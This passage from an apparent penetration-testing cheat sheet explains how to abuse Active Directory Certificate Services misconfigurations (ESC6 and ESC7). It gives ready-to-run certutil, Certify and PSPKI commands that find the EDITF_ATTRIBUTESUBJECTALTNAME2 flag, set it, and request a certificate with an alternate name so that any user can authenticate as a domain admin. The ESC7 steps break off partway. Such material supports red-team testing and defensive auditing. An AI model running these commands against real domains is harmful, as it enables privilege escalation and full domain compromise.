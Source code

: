 This means that an adversary can enroll in **any** template configured for domain authentication that also allows unprivileged users to enroll (e.g., the default `User` template) and obtain a certificate that allows to authenticate as a domain admin or any other active user/machine.

Discover with certutil:

```
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -getreg "policy\EditFlags"
Or
Cmd > reg.exe query \\CA01.megacorp.local\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CorpCA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags
```

Discover with Certify:

```
Cmd > .\Certify.exe find
```

To abuse request a certificate specifying an `/altname` with any template that allows for domain auth (e.g., the default `User` template which normally doesn't allow to specify alternative names):

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:User /altname:DomAdmin
```

This setting can be set with domain admin's privileges like this (*dangerous, do not do this!*):

```
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -setreg "policy\EditFlags" +EDITF_ATTRIBUTESUBJECTALTNAME2
```

Remove this setting:

```
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2
```



### Vulnerable CA ACEs (ESC7)

Enumarate CA ACEs with Powershell [PSPKI](https://github.com/PKISolutions/PSPKI):

```
PS > Install-Module -Name PSPKI
PS > Import-Module PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-CertificationAuthorityAcl | select -ExpandProperty access
```

`ManageCA` and `ManageCertificates` rights translate to the "CA Administrator" and "Certificate Manager" ("CA Officer") respectively.

The "CA Administrator" role allows to set the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (see **ESC6**):

```
# Check before setting the flag
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -getreg "policy\EditFlags"

# Invoke SetConfigEntry
PS > "$(hostname) : $(whoami)"
WS01 : megacorp\CertAdmin
PSPKI > $configReader = New-Object SysadminsLV.PKI.Dcom.Implementation.CertSrvRegManagerD "CA01.megacorp.local"
PSPKI > $configReader.SetRootNode($true)
PSPKI > $configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
1114446
```